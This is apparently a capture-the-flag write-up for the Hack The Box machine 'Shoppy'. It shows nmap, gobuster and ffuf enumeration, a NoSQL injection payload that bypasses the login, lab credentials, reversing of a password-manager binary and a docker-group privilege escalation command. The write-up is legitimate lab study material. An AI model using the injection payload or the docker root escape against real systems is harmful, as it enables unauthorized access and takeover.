









# Shoppy
## Enumeration
- `nmap`
```
└─$ nmap -Pn -p- 10.10.11.180 -T4                                                                                          
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-30 17:39 BST
Nmap scan report for 10.10.11.180 (10.10.11.180)
Host is up (0.14s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
9093/tcp open  copycat
```
```
└─$ nmap -Pn -p22,80,9093 -sC -sV 10.10.11.180 -T4
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-30 17:53 BST
Nmap scan report for 10.10.11.180 (10.10.11.180)
Host is up (0.12s latency).

PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 9e:5e:83:51:d9:9f:89:ea:47:1a:12:eb:81:f9:22:c0 (RSA)
|   256 58:57:ee:eb:06:50:03:7c:84:63:d7:a3:41:5b:1a:d5 (ECDSA)
|_  256 3e:9d:0a:42:90:44:38:60:b3:b6:2c:e9:bd:9a:67:54 (ED25519)
80/tcp   open  http     nginx 1.23.1
|_http-title: Did not follow redirect to http://shoppy.htb
|_http-server-header: nginx/1.23.1
9093/tcp open  copycat?
| fingerprint-strings: 
|   GenericLines: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest, HTTPOptions: 
|     HTTP/1.0 200 OK
|     Content-Type: text/plain; version=0.0.4; charset=utf-8
|     Date: Wed, 30 Aug 2023 16:52:49 GMT
|     HELP go_gc_cycles_automatic_gc_cycles_total Count of completed GC cycles generated by the Go runtime.
|     TYPE go_gc_cycles_automatic_gc_cycles_total counter
|     go_gc_cycles_automatic_gc_cycles_total 10
|     HELP go_gc_cycles_forced_gc_cycles_total Count of completed GC cycles forced by the application.
|     TYPE go_gc_cycles_forced_gc_cycles_total counter
|     go_gc_cycles_forced_gc_cycles_total 0
|     HELP go_gc_cycles_total_gc_cycles_total Count of all completed GC cycles.
|     TYPE go_gc_cycles_total_gc_cycles_total counter
|     go_gc_cycles_total_gc_cycles_total 10
|     HELP go_gc_duration_seconds A summary of the pause duration of garbage collection cycles.
|     TYPE go_gc_duration_seconds summary
|     go_gc_duration_seconds{quantile="0"} 1.9596e-05
|     go_gc_duration_seconds{quantile="0.25"} 9.8576e-05
|_    go_gc_d
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port9093-TCP:V=7.94%I=7%D=8/30%Time=64EF7405%P=x86_64-pc-linux-gnu%r(Ge
SF:nericLines,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20t
SF:ext/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x
SF:20Request")%r(GetRequest,252E,"HTTP/1\.0\x20200\x20OK\r\nContent-Type:\
SF:x20text/plain;\x20version=0\.0\.4;\x20charset=utf-8\r\nDate:\x20Wed,\x2
SF:030\x20Aug\x202023\x2016:52:49\x20GMT\r\n\r\n#\x20HELP\x20go_gc_cycles_
SF:automatic_gc_cycles_total\x20Count\x20of\x20completed\x20GC\x20cycles\x
SF:20generated\x20by\x20the\x20Go\x20runtime\.\n#\x20TYPE\x20go_gc_cycles_
SF:automatic_gc_cycles_total\x20counter\ngo_gc_cycles_automatic_gc_cycles_
SF:total\x2010\n#\x20HELP\x20go_gc_cycles_forced_gc_cycles_total\x20Count\
SF:x20of\x20completed\x20GC\x20cycles\x20forced\x20by\x20the\x20applicatio
SF:n\.\n#\x20TYPE\x20go_gc_cycles_forced_gc_cycles_total\x20counter\ngo_gc
SF:_cycles_forced_gc_cycles_total\x200\n#\x20HELP\x20go_gc_cycles_total_gc
SF:_cycles_total\x20Count\x20of\x20all\x20completed\x20GC\x20cycles\.\n#\x
SF:20TYPE\x20go_gc_cycles_total_gc_cycles_total\x20counter\ngo_gc_cycles_t
SF:otal_gc_cycles_total\x2010\n#\x20HELP\x20go_gc_duration_seconds\x20A\x2
SF:0summary\x20of\x20the\x20pause\x20duration\x20of\x20garbage\x20collecti
SF:on\x20cycles\.\n#\x20TYPE\x20go_gc_duration_seconds\x20summary\ngo_gc_d
SF:uration_seconds{quantile=\"0\"}\x201\.9596e-05\ngo_gc_duration_seconds{
SF:quantile=\"0\.25\"}\x209\.8576e-05\ngo_gc_d")%r(HTTPOptions,1000,"HTTP/
SF:1\.0\x20200\x20OK\r\nContent-Type:\x20text/plain;\x20version=0\.0\.4;\x
SF:20charset=utf-8\r\nDate:\x20Wed,\x2030\x20Aug\x202023\x2016:52:49\x20GM
SF:T\r\n\r\n#\x20HELP\x20go_gc_cycles_automatic_gc_cycles_total\x20Count\x
SF:20of\x20completed\x20GC\x20cycles\x20generated\x20by\x20the\x20Go\x20ru
SF:ntime\.\n#\x20TYPE\x20go_gc_cycles_automatic_gc_cycles_total\x20counter
SF:\ngo_gc_cycles_automatic_gc_cycles_total\x2010\n#\x20HELP\x20go_gc_cycl
SF:es_forced_gc_cycles_total\x20Count\x20of\x20completed\x20GC\x20cycles\x
SF:20forced\x20by\x20the\x20application\.\n#\x20TYPE\x20go_gc_cycles_force
SF:d_gc_cycles_total\x20counter\ngo_gc_cycles_forced_gc_cycles_total\x200\
SF:n#\x20HELP\x20go_gc_cycles_total_gc_cycles_total\x20Count\x20of\x20all\
SF:x20completed\x20GC\x20cycles\.\n#\x20TYPE\x20go_gc_cycles_total_gc_cycl
SF:es_total\x20counter\ngo_gc_cycles_total_gc_cycles_total\x2010\n#\x20HEL
SF:P\x20go_gc_duration_seconds\x20A\x20summary\x20of\x20the\x20pause\x20du
SF:ration\x20of\x20garbage\x20collection\x20cycles\.\n#\x20TYPE\x20go_gc_d
SF:uration_seconds\x20summary\ngo_gc_duration_seconds{quantile=\"0\"}\x201
SF:\.9596e-05\ngo_gc_duration_seconds{quantile=\"0\.25\"}\x209\.8576e-05\n
SF:go_gc_d");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 114.47 seconds
```
- Web Server


- `gobuster`
```
└─$ gobuster dir -u http://shoppy.htb/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50 -x txt,php --no-error               
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://shoppy.htb/
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Extensions:              txt,php
[+] Timeout:                 10s
===============================================================
2023/08/30 17:58:27 Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 179] [--> /images/]
/login                (Status: 200) [Size: 1074]
/admin                (Status: 302) [Size: 28] [--> /login]
/assets               (Status: 301) [Size: 179] [--> /assets/]
/css                  (Status: 301) [Size: 173] [--> /css/]
/Login                (Status: 200) [Size: 1074]
/js                   (Status: 301) [Size: 171] [--> /js/]
/fonts                (Status: 301) [Size: 177] [--> /fonts/]
/Admin                (Status: 302) [Size: 28] [--> /login]
/exports              (Status: 301) [Size: 181] [--> /exports/]
```
- `vhosts`
  - Nothing
```
└─$ ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -u 'http://shoppy.htb/' -H 'Host: FUZZ.shoppy.htb' -fs 169

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.0.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://shoppy.htb/
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt
 :: Header           : Host: FUZZ.shoppy.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
 :: Filter           : Response size: 169
________________________________________________

:: Progress: [19966/19966] :: Job [1/1] :: 271 req/sec :: Duration: [0:01:23] :: Errors: 0 ::

```
## Foothold/User #1
- `http://shoppy.htb/login`



- Trying basic `sqli` payloads had no results
  - `sqlmap -r login.req --batch --level 5 --risk 3` also failed
  - So I checked `nosqli` payloads 
    - And none of them worked either
    - But posts in the forum hinted about the `nosqli`
    - So then I found this [post]( https://nullsweep.com/a-nosql-injection-primer-with-mongo/)
    - `admin' || '1'=='1` worked


- We're in
  - There's nothing except `search` option for users
  - If we search for `admin` user we get a hit
  - But the `hash` is not crackable





- So then I tried the same payload
  - And we got one more user: `josh`




- Cracking password for `josh` is successful
  - `josh:remembermethisway`


- But creds don't work for `ssh`
  - I was stuck here, then someone hinted to use a different wordlist for `vhost` fuzzing
  - `mattermost.shoppy.htb`

```
└─$ ffuf -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -u 'http://shoppy.htb/' -H 'Host: FUZZ.shoppy.htb' -fs 169 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.0.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://shoppy.htb/
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt
 :: Header           : Host: FUZZ.shoppy.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
 :: Filter           : Response size: 169
________________________________________________

[Status: 200, Size: 3122, Words: 141, Lines: 1, Duration: 114ms]
    * FUZZ: mattermost

```

- It's a [Mattermost](https://mattermost.com/)
  - Using `josh`'s creds work




- We found creds in one of the channels
  - `jaeger:Sh0ppyBest@pp!`



- And we can `ssh`


## User #2
- `sudo`
```
jaeger@shoppy:~$ sudo -l
[sudo] password for jaeger: 
Matching Defaults entries for jaeger on shoppy:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User jaeger may run the following commands on shoppy:
    (deploy) /home/deploy/password-manager

```
- Tried  running it but it requires master password
```
jaeger@shoppy:~$ sudo -u deploy /home/deploy/password-manager
[sudo] password for jaeger: 
Welcome to Josh password manager!
Please enter your master password: Sh0ppyBest@pp!
Access denied! This incident will be reported !
```
- Let's download it
```
└─$ scp jaeger@shoppy.htb:/home/deploy/password-manager .               
jaeger@shoppy.htb's password: 
password-manager    
```
- I opened it using `ghidra`


- If we try `Sample` for master key, it works
  - We now can `su` as `deploy`
  - `deploy:Deploying@pp!`



## Root
- No `sudo` rights
  - But we are in `docker` group
```
deploy@shoppy:~$ id
uid=1001(deploy) gid=1001(deploy) groups=1001(deploy),998(docker)
```
- We can follow [GTFOBins](https://gtfobins.github.io/gtfobins/docker/#shell)
  - `docker run -v /:/mnt --rm -it alpine chroot /mnt sh`
  - And we can read `root` flag



- If we want a `shell`
  - We can create a `.ssh` and add our `ssh` key to `authorized_keys`




